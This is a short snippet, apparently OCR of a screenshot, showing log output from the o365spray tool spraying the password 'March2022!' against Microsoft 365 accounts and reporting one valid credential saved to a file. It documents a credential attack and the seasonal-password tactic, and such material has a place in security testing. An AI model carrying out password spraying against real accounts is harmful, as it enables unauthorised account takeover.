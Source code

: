 [2022-04-14 12:26:32,202] INFO : Password spraying the following
passwords: ['March2022!']
[2022-04-14 12:26:33,025] INFO : [VALID] [email protected]:March2022!
[2022-04-14 12:26:33,048] INFO :
[ * ] Writing valid credentials to:
'/opt/o365spray/spray/spray_valid_credentials.2204141226.txt'
[ * ] All sprayed credentials can be found at:
'/opt/o365spray/spray/spray_tested_credentials.2204141226.txt'
[2022-04-14 12:26:33,048] INFO : Valid Credentials: 1
